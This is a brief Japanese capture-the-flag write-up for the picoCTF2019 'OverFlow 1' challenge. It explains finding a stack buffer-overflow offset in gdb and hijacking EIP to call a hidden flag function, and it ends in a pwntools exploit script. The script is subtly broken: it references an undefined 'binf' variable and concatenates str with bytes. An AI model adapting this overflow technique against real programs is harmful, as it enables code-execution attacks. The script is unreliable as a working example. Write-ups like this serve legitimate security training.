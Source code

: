 # OverFlow 1
## picoCTF2019
## Binary Exploition
***

与えらえるコードから、本来呼ばれないflag関数を呼ぶことが出来ればflagを得ることができるとわかる。  
さっそくgdbで解析していく。まず、
> pattc 100

で適当な文字列を生成する。次に
> run

で入力までいったら、生成した文字列を貼り付ける。するとBOFが起きるため、EIPのアドレスを調べて、
> patto EIPのアドレス

を打つ。これでオフセットが分かる。次にflag関数のアドレスを調べる。
> p flag

で出たアドレスがflag関数のアドレス。  

最後にこれを使ってexploitコードを書く。  
```
from pwn import *
context(arch="i386", os="linux")
p = process("./vuln")
e = ELF("./vuln")
flag_address = binf.symbols[b'flag']
offset = 76
payload = "A"*offset + p32(flag_address)
p.sendline(payload)
p.interactive()
```
これを実行してフラグゲット